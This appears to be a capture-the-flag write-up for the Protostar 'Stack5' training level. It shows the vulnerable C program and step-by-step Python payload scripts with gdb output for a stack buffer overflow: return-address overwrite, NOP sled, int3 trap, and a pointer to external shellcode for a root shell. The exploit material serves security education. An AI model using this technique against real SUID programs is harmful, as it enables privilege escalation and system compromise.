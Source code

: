 # Stack5
## Briefing
Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints:

1. At this point in time, it might be easier to use someone elses shellcode.
2. If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger.
3. remove the int3s once your shellcode is done.
## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
## Solution
Stack5 is an actual buffer overflow exploit with shellcode.
The idea is this:
We put in, PADDING + RETURN + NOPS + SHELLCODE/TRAP.
The padding fills up the buffer until we are overwriting the return address, so we will start with that and come onto the other things later, lets do the usual approach.
```
exploit = ''
exploit += 'A' * 64
exploit += 'BBBBCCCCDDDDEEEEFFFFGGGG'

print(exploit)
```
When feeding this to the program we get a fault at 0x45454545 again.
```
Program recieved signal SIGSEGV, Segmentation fault. 
0x45454545 in ?? ()
```
Like Stack4 we now know that we can enter 76 letters until we overwrite the return address.
Our exploit now looks like this: 76 letters + RETURN + NOPS + SHELLCODE/TRAP.
Now we are going to add our NOPs and a code execution trap.
The trap, '\xcc' stops code execution completely when ran by the program, if we hit the trap it means that our code is being executed by the program, then we can simply swap the trap out for some working shellcode.
But how can we get our code to run? Well its simple, the return address runs what ever it is set too.
If we overwrite the return to the address of our trap, the return will jump there and run the trap for us, which we will be able to see in gdb.
While this exploit would work in theory, there are some issues with it.
The issues are, how do we find out the address of our trap. And also how do we know that gdb is accurate with the address. (it's not)
This is where are NOPs come in.
The NOP, (No-operation, \x90) does nothing. But think about it, if we have 100 nothing operations and a trap at the end, we only need to hit an address of a NOP with the return address and then it will do nothing until it finally reaches our code and then runs it!
We have essentially multiplied our room for error by 100!
Having a payload of length 101 now also makes it far easier to spot this payload and find out its memory address!
Now lets update our code:
```
import struct

nop = '\x90'
trap = '\xcc'
rp = 'BBBB'

exploit = ''
exploit += 'A' * 76
exploit += rp
exploit += nop * 100
exploit += trap

print(exploit)
```
Ok now lets feed this into GDB, and we see...
```
Program recieved signal SIGSEGV, Segmentation fault. 
0x42424242 in ?? ()
```
Segfault at our return address, as expected, here we can now use the `x/100x $esp` command to look into the stack and see where the nops are.
I found mine at 0xbffffd50, you should just use an address in the middle of the nops. Remember you are looking for 0x90909090, because the nop is '\x90'
now we finally plug that address into our code:
```
import struct

nop = '\x90'
trap = '\xcc'
rp = struct.pack("<L", 0xbffffd50)

exploit = ''
exploit += 'A' * 76
exploit += rp
exploit += nop * 100
exploit += trap

print(exploit)
```
The final run in gdb...
```
Program recieved signal SIGTRAP, Trace/Breakpoint trap. 
```
We have code execution! the program hit our trap!
Now you can simply swap out the trap for any shellcode you want. If you want to make a root shell because these files are SUID binaries then I like to use this one, /bin/dash http://shell-storm.org/shellcode/files/shellcode-811.php
